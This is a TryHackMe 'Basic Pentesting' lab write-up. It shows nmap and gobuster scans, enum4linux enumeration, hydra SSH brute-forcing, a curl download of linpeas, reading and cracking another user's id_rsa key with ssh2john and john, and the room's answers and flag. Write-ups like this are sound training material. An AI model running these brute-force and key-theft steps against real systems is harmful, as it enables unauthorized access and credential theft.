 
# Basic Pentesting

Writeup for the tryhackme room Basic Pentesting

### Find the services exposed by the machine

Use nmap tool which comes pre-installed in Kali Linux. Type the command nmap<ip-address> in bash shell

```bash
 sudo nmap 10.10.212.134
```
This will expose all the servies running on the target ip
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%201.PNG?raw=true)

### Find the hidden directory on the web server

use gobuster to bruteforce the directories , gobutser is a great tool for bruteforcing the hidden directories
on a web server

```bash
 gobuster dir -u 10.10.212.134 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture2.PNG?raw=true)

From the above bruteforcing we can find that the development/ directory is hidden on the web server,investigating
further we can see that there are two files on this hidden directory:\
1.dev.txt:\
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%203.PNG?raw=true)
2.j.txt:\
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%204.PNG?raw=true)

There is an interesting thing discovered in j.txt file,by this we can notice that j and k are the 
intials of users on the web servers.

### Bruteforcing the Username and Password
Using tools such as enum4linux we can enumerate the users on that web server and for any service possible
```bash
 enum4linux -e 10.10.212.134
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%205.PNG?raw=true)
By running the above command we can see that there are two users that have access to the webserver
Jan and Kay!\
By bruteforcing the password of the Jan user by the tool hydra which can be used to bruteforce the
service passwords like SSH,we were able to find out the password:
```bash
 sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.212.134 ssh -I
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%207.PNG?raw=true)

So the answer for the Q5? username- jan | password- armando

Also,by using this username and password we can ssh into the webserver:
```bash
 ssh jan@10.10.212.134
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%208.PNG?raw=true)
So the answer to Q7? SSH

### Enumerate for privilige escalation
We will use a simple script called LinPeas.sh which is a bash script in order to identify vectors
for privilige escalation\
But first we have to download our script into the ssh server using curl:\
```bash
 which curl
 curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
 chmod +x linpeas.sh
```
We have the following information about the web server
![nmap scan](https://miro.medium.com/max/720/1*uq-Jiai8XkCzVvM0wkFWZA.png)\
![nmap scan](https://miro.medium.com/max/720/1*Q69I_ZXBDmNqlQiDEqRX-g.png)

### Final Access
Answer to Q9? Kay\
By looking deep inside the webserver we found that the user Kay has the id_rsa key located in the
directory /home/kay/.ssh through which we can SSH into his user account
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%209.PNG?raw=true)
using cat command we can open the file id_rsa
```bash
 ls -la
 cat id_rsa
```
id_rsa file:
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2010.PNG?raw=true)

Just copy paste this file from '----BEGIN RSA PRIVATE KEY'----' till ----END RSA PRIVATE KEY ----'
to local machine name this simply as 'kay_rsa'\

Also we have to change the permissions for the kay_rsa file to work it properly,this can be done simply by
```bash
 nano kay_rsa 
 chmod 600 kay_rsa
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2017.PNG?raw=true)
After SSH into the kay user we find that the kay_rsa is passphrase protected,use of simple tool like
ssh2john can convert this passphrase file to john crackable file called pass.txt
```bash
 ssh2john kay_rsa > pass.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2012.PNG?raw=true)
Now we can easily crack this pass file using johntheripper
```bash
 john pass.txt -wordlist=/usr/share/wordlists/rockyou.txt
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2013.PNG?raw=true)
the password is 'beeswax'\
Now it's time for the final access into the SSH of Kay user
```bash
 ssh -i kay_rsa kay@10.10.97.62
```
entering the above password will get us in
now opening the pass.bak file will give us the final flag of the challenge
```bash
 ls -al
 cat pass.bak
```
![nmap scan](https://github.com/TM-Deadleaf/TryHackMe_Writeups/blob/main/Capture%2014.PNG?raw=true)

Hence, the final flag and answer to Q11?-heresareallystrongpasswordthatfollowsthepasswordpolicy$$










